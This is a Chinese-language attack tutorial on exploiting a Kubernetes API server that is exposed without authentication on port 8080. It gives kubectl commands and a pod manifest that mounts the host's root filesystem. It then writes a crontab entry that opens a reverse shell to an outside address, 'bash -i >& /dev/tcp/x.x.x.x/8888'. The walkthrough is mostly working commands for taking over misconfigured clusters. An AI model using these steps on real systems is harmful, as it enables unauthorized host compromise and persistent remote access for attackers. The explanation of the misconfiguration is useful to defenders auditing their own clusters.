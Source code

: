 [toc]

## 攻击存在未授权访问漏洞的k8s

### 成因

漏洞的起因是因为8080端口未进行限制或者关闭。根据官方文档，API Server 默认会开启两个端口：8080 和 6443。其中 8080 端口无需认证，应该仅用于测试。6443 端口需要认证，且有 TLS 保护。

### 攻击步骤

#### 访问8080端口

访问8080端口，如果返回类似以下信息则表示存在漏洞：
![](_v_images/20200502165740797_23931.png)

对于8080端口的指纹，则如下：
![](_v_images/20200502165839863_13014.png)

如果Kubernetes API Server配置了Dashboard,通过路径/api/ui即可访问：
![](_v_images/20200502165922771_9455.png)

#### 安装 kubectl

但是测试的这一台并没有配置 dashboard，所以不能通过图形界面来创建容器，只能通过 kubectl（kubectl是官方提供了一个命令行工具 ）来进行操作。kubectl 安装过程如下：
```
# cat <<EOF > /etc/yum.repos.d/kubernetes.repo
[kubernetes]
name=Kubernetes
baseurl=https://packages.cloud.google.com/yum/repos/kubernetes-el7-x86_64
enabled=1
gpgcheck=1
repo_gpgcheck=1
gpgkey=https://packages.cloud.google.com/yum/doc/yum-key.gpg https://packages.cloud.google.com/yum/doc/rpm-package-key.gpg
EOF
# yum install -y kubectl
```

#### 使用kubectl尝试连接

尝试获取目标机器的信息：
![](_v_images/20200502170612330_24922.png)

需要注意到是如果你的kubectl版本比服务器的高，会出现如下错误，需要把kubectl的版本降低
![](_v_images/20200502170745976_30822.png)

下面把kubectl版本降到1.8.7：
```
# curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.8.7/bin/linux/amd64/kubectl
# chmod 777 kubectl
# mv /usr/bin/kubectl /usr/bin/kubectl.bak
# mv kubectl /usr/bin/kubectl
```

查看版本降成了1.8.7，执行命令成功
![](_v_images/20200502170827491_267.png)

#### 挂载目录
接着在本机上新建个yaml文件用于创建容器，并将节点的根目录挂载到容器的 /mnt 目录，内容如下：
```
apiVersion: v1
kind: Pod
metadata:
  name: myapp
spec:
  containers:
  - image: nginx
    name: test-container
    volumeMounts:
    - mountPath: /mnt
      name: test-volume
  volumes:
  - name: test-volume
    hostPath:
      path: /
```


然后使用 kubectl 创建容器：
```
// 由 myapp.yaml 创建容器，并使用定时任务反弹shell
# kubectl -s 1.2.3.4:8080 create -f myapp.yaml
// 等待容器创建完成
// 获得 myapp 的交互式 shell
# kubectl -s 1.2.3.4:8080 --namespace=default exec -it myapp bash
// 向 crontab 写入反弹 shell 的定时任务
# echo -e "* * * * * root bash -i >& /dev/tcp/x.x.x.x/8888 0>&1\n" >> /mnt/etc/crontab
```
![](_v_images/20200502171816707_9648.png)

#### 获得权限
![](_v_images/20200502171853047_17460.png)

#### 总结
其实手法还是挺简单的，基本上和攻击未授权的 docker api一样，通过挂载目录，然后写计划任务来获得shell

#### 参考链接
https://0x0d.im/archives/attack-container-management-platform.html